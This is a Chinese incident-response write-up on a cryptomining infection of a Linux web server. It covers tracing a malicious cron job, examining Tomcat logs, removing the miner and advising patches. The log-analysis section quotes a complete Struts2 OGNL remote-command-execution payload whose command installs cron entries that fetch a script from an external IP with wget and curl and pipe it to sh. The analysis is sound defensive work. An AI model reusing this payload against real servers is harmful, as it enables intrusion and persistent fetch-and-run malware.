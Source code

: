 ## 第3篇：挖矿病毒

### 0x00 前言

​	随着虚拟货币的疯狂炒作，利用挖矿脚本来实现流量变现，使得挖矿病毒成为不法分子利用最为频繁的攻击方式。新的挖矿攻击展现出了类似蠕虫的行为，并结合了高级攻击技术，以增加对目标服务器感染的成功率，通过利用永恒之蓝（EternalBlue）、web攻击多种漏洞（如Tomcat弱口令攻击、Weblogic WLS组件漏洞、Jboss反序列化漏洞、Struts2远程命令执行等），导致大量服务器被感染挖矿程序的现象 。

### 0x01 应急场景

​	某天，安全管理员在登录安全设备巡检时，发现某台网站服务器持续向境外IP发起连接，下载病毒源：

![](.\image\linux-12-1.png)

###0x02 事件分析

#### A、排查过程	

登录服务器，查看系统进程状态，发现不规则命名的异常进程、异常下载进程 :

![](.\image\linux-12-2.png)

![](.\image\linux-12-3.png)

下载logo.jpg，包含脚本内容如下：

![](.\image\linux-12-4.png)	

到这里，我们可以发现攻击者下载logo.jpg并执行了里面了shell脚本，那这个脚本是如何启动的呢？

通过排查系统开机启动项、定时任务、服务等，在定时任务里面，发现了恶意脚本，每隔一段时间发起请求下载病毒源，并执行 。

![](.\image\linux-12-5.png)

#### B、溯源分析

​	在Tomcat log日志中，我们找到这样一条记录：

![](.\image\linux-12-6.png)

对日志中攻击源码进行摘录如下： 

`{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='echo "*/20 * * * * wget -O - -q http://5.188.87.11/icons/logo.jpg|sh\n*/19 * * * * curl http://5.188.87.11/icons/logo.jpg|sh" | crontab -;wget -O - -q http://5.188.87.11/icons/logo.jpg|sh').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())} `

可以发现攻击代码中的操作与定时任务中异常脚本一致，据此推断黑客通过Struct 远程命令执行漏洞向服务器定时任务中写入恶意脚本并执行。

#### C、清除病毒

1、删除定时任务:

![](.\image\linux-12-7.png)

2、终止异常进程:

![](.\image\linux-12-8.png)

#### D、漏洞修复

​	升级struts到最新版本 

### 0x03 防范措施

​	针对服务器被感染挖矿程序的现象，总结了几种预防措施：

```
1、安装安全软件并升级病毒库，定期全盘扫描，保持实时防护
2、及时更新 Windows安全补丁，开启防火墙临时关闭端口
3、及时更新web漏洞补丁，升级web组件
```









